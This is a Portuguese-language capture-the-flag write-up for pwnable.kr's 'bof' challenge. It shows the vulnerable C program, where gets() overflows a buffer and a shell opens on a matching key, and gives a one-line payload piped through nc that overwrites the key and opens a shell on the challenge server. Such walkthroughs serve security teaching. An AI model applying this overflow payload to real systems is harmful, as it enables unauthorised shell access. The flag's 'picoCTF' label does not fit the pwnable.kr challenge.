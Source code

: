 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Buffer Overflow]  

## Sobre o Desafio  

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Running at : nc pwnable.kr 9000

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php)
- [Download](http://pwnable.kr/bin/bof)  
- [Download](http://pwnable.kr/bin/bof.c)  

## Solução

```c++
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

permissão de execução
```
chmod +x bof
```
rodar o arquivo
```
./bof
```

usando o `gdb bof`

![image](https://github.com/user-attachments/assets/5b512de4-7913-422a-b98c-7cd8de8763f8)

![image](https://github.com/user-attachments/assets/65f5b85a-fead-47d0-86ec-a960541f9e53)

![image](https://github.com/user-attachments/assets/825153ba-a22c-4098-80a4-32a08527067d)

![image](https://github.com/user-attachments/assets/56d511d8-946a-4f09-a892-322d0b9b83e1)

![image](https://github.com/user-attachments/assets/1926e179-6b1c-4d30-a5fc-a9723f19c80e)

```(python -c "print '\x41'*52 + '\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000```

cat flag

> Assim, obtemos a flag `picoCTF{daddy, I just pwned a buFFer :)}`  

